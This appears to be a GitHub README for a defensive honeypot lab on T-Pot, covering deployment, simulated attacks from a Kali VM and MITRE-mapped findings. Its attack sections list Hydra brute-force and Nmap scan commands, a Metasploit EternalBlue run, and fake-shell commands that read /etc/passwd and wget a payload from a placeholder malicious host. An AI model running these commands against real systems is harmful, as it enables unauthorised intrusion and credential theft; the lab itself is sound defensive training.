


<div align="center">





<br/>

# 🍯 Honeypot Threat Analysis Lab

### *A full-cycle deception-based security lab built on T-Pot — covering deployment, attack simulation, and real-world threat analysis.*

<br/>


<br/>

[📋 Overview](#-overview) •
[🏗️ Architecture](#️-architecture) •
[🛠️ Setup & Installation](#️-setup--installation) •
[⚔️ Attack Simulation](#️-attack-simulation--threat-analysis) •
[📊 Findings](#-key-findings) •
[📁 Reports](#-reports) •
[🧰 Tools Used](#-tools-used)

</div>

---

## 📋 Overview

This lab demonstrates an **end-to-end honeypot deployment and threat analysis pipeline** using the **T-Pot** multi-honeypot platform. The goal is to attract, capture, and analyze real and simulated malicious activity — developing hands-on experience in deception technology, attack pattern recognition, and blue-team security monitoring.

The project covers three pillars:

| Pillar | Description |
|--------|-------------|
| 🏗️ **Infrastructure** | Deploying T-Pot on a dedicated VM with network isolation and firewall segmentation |
| ⚔️ **Attack Simulation** | Generating synthetic attack traffic using Nmap, Hydra, and Metasploit from a separate attacker VM |
| 🔍 **Threat Analysis** | Monitoring and analysing captured events through Kibana dashboards, Cowrie logs, and attack maps |

---

## 🏗️ Architecture

<div align="center">
  
</div>

<br/>

The lab is built around two isolated virtual machines on an **internal-only network**, with a pfSense/firewall layer enforcing strict egress and ingress rules:

```
┌─────────────────────────────────────────────────────────┐
│                     HOST MACHINE                        │
│                                                         │
│  ┌─────────────────────┐    ┌────────────────────────┐  │
│  │   ATTACKER VM       │    │   HONEYPOT VM          │  │
│  │   (Kali Linux)      │◄──►│   (Ubuntu + T-Pot)     │  │
│  │                     │    │                        │  │
│  │  • Nmap             │    │  ┌──────────────────┐  │  │
│  │  • Hydra            │    │  │ Cowrie (SSH/Tel) │  │  │
│  │  • Metasploit       │    │  │ Dionaea (Malware)│  │  │
│  │  • Netcat           │    │  │ Heralding (Creds)│  │  │
│  └─────────────────────┘    │  │ ELK Stack (SIEM) │  │  │
│                             │  │ Attack Map       │  │  │
│         Internal Network    │  └──────────────────┘  │  │
│         (Isolated Segment)  └────────────────────────┘  │
└─────────────────────────────────────────────────────────┘
```

**Network Design Principles:**
- Honeypot VM has **no outbound internet access** to prevent malware propagation
- Attacker VM sits on the same internal segment to simulate realistic threat scenarios
- All traffic is logged via T-Pot's ELK stack for post-event analysis

---

## 🛠️ Setup & Installation

> 📄 Full walkthrough: [`reports/setup_installation_configuration.md`](reports/setup_installation_configuration.md)

### System Requirements

| Component | Minimum | Recommended |
|-----------|---------|-------------|
| RAM | 8 GB | 16 GB |
| Storage | 128 GB | 256 GB SSD |
| CPU | 4 cores | 8 cores |
| OS | Ubuntu 20.04+ | Ubuntu 22.04 LTS |
| Network | 1 NIC | 2 NICs (isolated segment) |

### Phase 1 — Host Preparation

```bash
# Update system packages
sudo apt update && sudo apt upgrade -y

# Install dependencies
sudo apt install -y git curl wget net-tools ufw

# Create a dedicated non-root user for T-Pot
sudo adduser tpot
sudo usermod -aG sudo tpot
```

### Phase 2 — T-Pot Installation

```bash
# Clone the T-Pot repository
git clone https://github.com/telekom-security/tpotce

# Run the installer (as the tpot user)
cd tpotce
sudo ./install.sh --type=user

# Select installation type when prompted:
# → STANDARD (recommended for single-host lab)
```

> ⚠️ **Note:** The installer will reboot the system. After reboot, T-Pot services start automatically via Docker containers.

### Phase 3 — Network & Firewall Configuration

```bash
# Allow T-Pot management port (adjust to your IP)
sudo ufw allow from <YOUR_IP> to any port 64297

# Block all other management traffic
sudo ufw default deny incoming
sudo ufw default allow outgoing

# Enable firewall
sudo ufw enable

# Verify rules
sudo ufw status verbose
```

### Phase 4 — Verify Deployment

Once installed, access the T-Pot web interface:

```
https://<HONEYPOT_IP>:64297
```

You should see the T-Pot landing page with links to:

| Dashboard | URL Path | Purpose |
|-----------|----------|---------|
| **Kibana** | `/kibana` | Log analysis & event visualization |
| **Attack Map** | `/map` | Real-time global attack visualization |
| **CyberChef** | `/cyberchef` | Data transformation & decoding |
| **Elasticvue** | `/elasticvue` | Raw Elasticsearch data browser |
| **SpiderFoot** | `/spiderfoot` | OSINT enrichment on attacker IPs |

---

## ⚔️ Attack Simulation & Threat Analysis

> 📄 Full walkthrough: [`reports/attack_simulation_and_threat_analysis.md`](reports/attack_simulation_and_threat_analysis.md)

Attacks were launched from the **Kali attacker VM** against the honeypot's IP. Each attack type was designed to trigger a specific honeypot sensor.

### 🔍 Phase 1 — Reconnaissance (Nmap)

```bash
# Full port scan — triggers Cowrie, Heralding, and Dionaea sensors
nmap -sV -sC -p- --min-rate 5000 <HONEYPOT_IP>

# OS fingerprinting
nmap -O <HONEYPOT_IP>

# UDP scan for additional service coverage
nmap -sU --top-ports 100 <HONEYPOT_IP>
```

**What was captured:** Open port lists, service banners, OS guesses — all logged in T-Pot's ELK stack with source IP, timestamp, and honeypot type.

---

### 💥 Phase 2 — SSH Brute-Force (Hydra)

```bash
# Dictionary attack against Cowrie's SSH honeypot (port 22)
hydra -l root -P /usr/share/wordlists/rockyou.txt \
  ssh://<HONEYPOT_IP> -t 4 -V

# Target multiple usernames
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \
  ssh://<HONEYPOT_IP> -t 4
```

**What was captured:** Every login attempt (username + password pair) is logged by Cowrie. Successful "logins" enter a fake shell environment where all commands are recorded.

---

### 🐚 Phase 3 — Simulated Shell Session (Cowrie)

After brute-forcing with a known credential (`root:123456`):

```bash
# SSH into the Cowrie fake shell
ssh root@<HONEYPOT_IP>

# Commands executed inside fake shell (all logged by Cowrie)
whoami
uname -a
cat /etc/passwd
wget http://malicious.example.com/payload.sh
```

**What was captured:** Full TTY session recording, all commands typed, any file download attempts, and exfiltration behaviour.

---

### 💣 Phase 4 — Vulnerability Exploitation (Metasploit)

```bash
# Launch Metasploit
msfconsole

# Target Dionaea's SMB emulation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <HONEYPOT_IP>
set LHOST <ATTACKER_IP>
run
```

**What was captured:** Dionaea captured the payload binary, malware sample hash, and exploit attempt details — logged to Elasticsearch for analysis.

---

### 📡 Phase 5 — Credential Harvesting (Heralding)

Heralding emulates FTP, SMTP, POP3, IMAP, HTTP, and Telnet to harvest credentials across multiple protocols:

```bash
# Attempt FTP login
ftp <HONEYPOT_IP>

# Test HTTP Basic Auth
curl -u admin:password http://<HONEYPOT_IP>:80

# Telnet probe
telnet <HONEYPOT_IP> 23
```

**What was captured:** All credential attempts across every protocol, stored with timestamps and attacker IP.

---

## 📊 Key Findings

### Attack Volume Summary

| Honeypot Sensor | Attacks Captured | Top Protocol | Unique Source IPs |
|-----------------|-----------------|--------------|-------------------|
| **Cowrie** | SSH / Telnet brute-force | SSH (port 22) | Multiple |
| **Dionaea** | Malware payloads | SMB / HTTP | Multiple |
| **Heralding** | Credential attempts | FTP / HTTP | Multiple |
| **Mailoney** | SMTP probes | SMTP (port 25) | Multiple |

### Top Observed TTPs (MITRE ATT&CK)

| Tactic | Technique | ID |
|--------|-----------|-----|
| Reconnaissance | Active Scanning | T1595 |
| Credential Access | Brute Force | T1110 |
| Execution | Command & Scripting Interpreter | T1059 |
| Collection | Data from Local System | T1005 |
| Command & Control | Application Layer Protocol | T1071 |
| Lateral Movement | Exploitation of Remote Services | T1210 |

### Notable Observations

- 🔑 **Most attempted credential:** `root / 123456` and `admin / admin` were by far the most common SSH login pairs
- 🌍 **Geographic spread:** Attack traffic originated from multiple countries, visible on the T-Pot Attack Map
- 🪲 **Malware capture:** Dionaea successfully captured and hashed malware binaries dropped via exploit attempts
- ⚡ **Speed of attack:** Port scan results populated in Kibana within seconds of the Nmap run completing
- 🔁 **Persistence behaviour:** Cowrie sessions showed attackers trying to set up cron jobs and download backdoors

---

## 📁 Reports

| Report | Description |
|--------|-------------|
| [`setup_installation_configuration.md`](reports/setup_installation_configuration.md) | Complete T-Pot installation guide, VM configuration, network segmentation, and firewall setup |
| [`attack_simulation_and_threat_analysis.md`](reports/attack_simulation_and_threat_analysis.md) | Full attack simulation walkthrough with tool output, Kibana analysis, captured events, and threat findings |

---

## 🧰 Tools Used

### Honeypot Platform

| Tool | Role |
|------|------|
| [**T-Pot**](https://github.com/telekom-security/tpotce) | Multi-honeypot orchestration platform (Docker-based) |
| **Cowrie** | Medium-interaction SSH & Telnet honeypot |
| **Dionaea** | Low-interaction honeypot for malware capture |
| **Heralding** | Multi-protocol credential-harvesting honeypot |
| **Mailoney** | SMTP honeypot |
| **Elasticpot** | Elasticsearch honeypot |

### SIEM & Visualization

| Tool | Role |
|------|------|
| **Elasticsearch** | Event data storage and indexing |
| **Logstash** | Log ingestion and parsing pipeline |
| **Kibana** | Dashboard visualization and query interface |
| **T-Pot Attack Map** | Real-time global attack heatmap |
| **CyberChef** | Payload decoding and transformation |
| **SpiderFoot** | OSINT enrichment on attacker IPs |

### Attack Simulation

| Tool | Role |
|------|------|
| **Nmap** | Port scanning and service enumeration |
| **Hydra** | SSH/FTP brute-force |
| **Metasploit** | Exploitation framework |
| **Netcat** | Manual TCP/UDP probe |
| **curl** | HTTP interaction |

---

## 🎓 Skills Demonstrated

```
✅ Honeypot deployment and configuration (T-Pot / Docker)
✅ Virtual machine networking and firewall segmentation
✅ Offensive tooling: Nmap, Hydra, Metasploit
✅ Log analysis with ELK Stack (Elasticsearch + Kibana)
✅ Threat intelligence gathering and OSINT enrichment
✅ Malware capture and IOC extraction
✅ MITRE ATT&CK framework mapping
✅ Blue-team monitoring and detection
✅ Security event reporting and documentation
```

---

## ⚠️ Disclaimer

> This lab is built for **educational and research purposes only**. All attack simulations were conducted in an **isolated, controlled environment** on infrastructure I own and operate. Do not replicate attack techniques against systems you do not have explicit written permission to test.

---

## 📬 Contact

<div align="center">

**Warun V**
Cybersecurity Enthusiast | Blue Team | Threat Intelligence

[](https://github.com/vwarun)

</div>

---

<div align="center">

*Built with 🍯 and a lot of threat data.*

⭐ If this lab helped you, consider giving it a star!

</div>
